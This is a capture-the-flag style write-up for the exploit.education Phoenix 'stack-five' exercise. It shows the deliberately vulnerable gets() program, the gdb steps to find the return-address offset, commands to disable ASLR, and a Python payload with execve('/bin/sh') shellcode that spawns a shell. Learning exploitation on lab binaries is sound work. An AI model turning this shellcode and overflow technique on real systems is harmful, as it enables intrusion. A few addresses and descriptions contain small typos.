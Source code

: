 # Stack Five

```c
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

## Solution

Note: if [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is turned on, you will need to temporarily turn it off for this exercise. You can do this with `echo 0 > /proc/sys/kernel/randomize_va_space`. Don't forget to turn it back on when you are done (`echo 2 > /proc/sys/kernel/randomize_va_space`)

In order to solve this one, we have to overwrite the return address of the `start_level()` call so that instead of returning to `main()` it returns instead to an address in the buffer where we have written shellcode. When this happens it will execute the shellcode. For this exercise the comments say to try and `execve("/bin/sh")`, so we will choose shellcode that executes that command.

1. Setup a template:
   ```python
    #!/usr/bin/python3
    import sys
    import pwn

    shellcode = b''
    payload_addr = 0x0000000000000000
    sled_len = 0
    offset = 0

    buf = b''
    buf += b'\x90' * sled_len # put NOP sled here
    buf += shellcode # payload
    buf += b'A' * (offset - len(buf) - 8) # Junk to get to Base Pointer
    buf += b'BBBBBBBB' # base pointer
    buf += pwn.p64(payload_addr) # New instruction pointer

    # send bytes raw to stdout
    sys.stdout.buffer.write(buf)
    ```

2. Get some shellcode from [shell-storm.org](https://shell-storm.org/shellcode/index.html), and select the appropriate architecture. For me it was the [Intel x86-64 one](https://shell-storm.org/shellcode/files/shellcode-905.html). It gives the 29 byte shellcode: `\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05`.
3. `gdb -q /opt/phoenix/amd64/stack-five` 
   1. `unset env LINES` and  `unset env COLUMNS` removes some unnecessary bloat on the stack to make our ROP easier
   2. `info func` to see our functions of interest
   3. `b main` sets a breakpoint on `main()`
   4. `b start_level` sets a breakpoint on `start_level()`
   5. `disass main` disassemble `main()` function

![](img/stack_five.png)

5. We need to overwrite the place in memory that stores the return location (`0x00000000004005c7`). Lets find the offset:
   1. `run`
   2. `continue` to `start_level` breakpoint and `ni` (next instruction) to the `gets()` call.
   3. enter an easily recognizable pattern: `AAAABBBB`
6. inspect the stack with `x/80xg $rsp`
   1. `x` is short for "examine". This starts the command to examine memory.
   2. `/32` specifies how many units of memory you want to examine. In this case, it's 80 units.
   3. `x` (the second one, after the slash) specifies the format in which you want the memory to be displayed. In this case, `x` stands for hexadecimal.
   4. `g` specifies the size of each unit of memory that you are examining. Here, `g` stands for "giant word", which is usually 8 bytes (64 bits) on most systems.
   5. `$rsp` is the value in the RSP register. On x86-64 systems, RSP is the stack pointer, which points to the top of the stack.
7.  ![](img/find_offset.png)
    1.   This is where our text went, `A` is `0x41` and `B` is `0x42`, it's at address `0x7fffffffdd50`
    2.   This is where the return address to overwrite is: `0x7fffffffdd8`. it's `0x7fffffffddd0` + 8 bytes because it's on the right column (Each line in GDB is 16 bytes.)
    3.   subtract the address from one another to get the offset `0x7fffffffddd8` - `0x7fffffffdd50` = `0x88`
    4.   `0x88` is 136 in decimal.
8. Craft the payload
```python
#!/usr/bin/python3

import sys
import pwn

shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
payload_addr = 0x7fffffffdd50
sled_len = 32
offset = 136

buf = b''
buf += b'\x90' * sled_len # put NOP sled here
buf += shellcode # payload
buf += b'A' * ((offset - 8) - len(buf)) # Junk to get to Base Pointer
buf += b'BBBBBBBB' # base pointer
buf += pwn.p64(payload_addr) # New instruction pointer

# send bytes raw to stdout
sys.stdout.buffer.write(buf)
```
9. Execute!
   1.  `python3 solve.py > payload`
   2.  `cat payload - | /opt/phoenix/amd64/stack-five`
   3.  ![](img/shell.png)